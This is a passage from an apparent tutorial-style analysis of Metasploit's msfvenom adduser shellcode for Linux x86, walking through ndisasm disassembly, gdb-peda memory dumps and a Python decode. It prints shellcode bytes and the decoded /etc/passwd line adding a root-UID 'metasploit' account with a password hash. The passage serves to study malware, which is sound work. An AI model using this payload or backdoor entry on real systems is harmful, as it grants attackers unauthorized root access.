 0000003D <span style="color:#FF7F50;">3470</span>             xor al,0x70
0000003F <span style="color:#FF7F50;">3449</span>             xor al,0x49
00000041 <span style="color:#FF7F50;">52</span>               push edx
00000042 <span style="color:#FF7F50;">633A</span>             arpl [edx],di
00000044 <span style="color:#FF7F50;">303A</span>             xor [edx],bh
00000046 <span style="color:#FF7F50;">303A</span>             xor [edx],bh
00000048 <span style="color:#FF7F50;">3A2F</span>             cmp ch,[edi]
0000004A <span style="color:#FF7F50;">3A2F</span>             cmp ch,[edi]
0000004C <span style="color:#FF7F50;">62696E</span>           bound ebp,[ecx+0x6e]
0000004F <span style="color:#FF7F50;">2F</span>               das
00000050 <span style="color:#FF7F50;">7368</span>             jnc 0xba
00000052 <span style="color:#FF7F50;">0A598B</span>           or bl,[ecx-0x75]</pre>
<p style="text-align:justify;">The following output shows that if we convert the hex opcodes highlighted with red colour above into ASCII text, we can have a new user record in valid format that can be inserted into the file <strong>/etc/passwd</strong>. Moreover with little help of python we can have a valid record in text as seen below</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 14px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">"6D65746173706C6F69743A417A2F6449736A3470344952633A303A303A3A2F3A2F62696E2F73680A598B".decode("hex")
'<span style="color:#FF7F50;">metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh</span><span style="color:#33cccc;">\n</span>Y\x8b'</pre>
<p style="text-align:justify;">Also as we see above, the default credentials are used because we didn't provide any username or password to the <strong>msfvenom</strong> command, so the username will be <strong>metasploit</strong>, and the password will be <strong>Az/dIsj4p4IRc</strong> . Furthermore the user id as well as the group id will be <strong>0</strong> and the login shell will be <strong>/bin/sh</strong>. The following output from <strong>gdb-peda</strong> can provide us with the expected results as discussed before. As we see in red color below the flow has been redirected at instruction <strong>pop ecx </strong>after the <strong>call 0x53 </strong>is executed.</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 14px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">=&gt; 0x404093 &lt;shellcode+83&gt;:   <span style="color:#FF7F50;">pop    ecx</span>
   0x404094 &lt;shellcode+84&gt;:   mov    edx,DWORD PTR [ecx-0x4]
   0x404097 &lt;shellcode+87&gt;:   push   0x4
   0x404099 &lt;shellcode+89&gt;:   pop    eax</pre>
<p style="text-align:justify;">if we examine closely the address <strong>0x404090 </strong>we see the following hexadecimal values in red</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 14px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><strong>gdb-peda$ x/20x 0x404090</strong>
0x404090 &lt;shellcode+80&gt;: <span style="color:#FF7F50;">0x59 0x8b 0x51 0xfc 0x6a 0x04 0x58 0xcd</span>
0x404098 &lt;shellcode+88&gt;: <span style="color:#FF7F50;">0x80 0x6a 0x01 0x58 0xcd 0x80 </span>0x00 0x00
0x4040a0: 0x00 0x00 0x00 0x00
gdb-peda$</pre>
<p style="text-align:justify;">if we look closely at the snippet below we see the above hexadecimal values presented in the second column of the <strong>ndisasm</strong> output</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 14px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">00000052 0A<span style="color:#FF7F50;">598B</span> or bl,[ecx-0x75] 
00000055 <span style="color:#FF7F50;">51</span>     push ecx 
00000056 <span style="color:#FF7F50;">FC</span>     cld 
00000057 <span style="color:#FF7F50;">6A04</span>   push byte +0x4 
00000059 <span style="color:#FF7F50;">58</span>     pop eax 
0000005A <span style="color:#FF7F50;">CD80</span>   int 0x80 
0000005C <span style="color:#FF7F50;">6A01</span>   push byte +0x1 
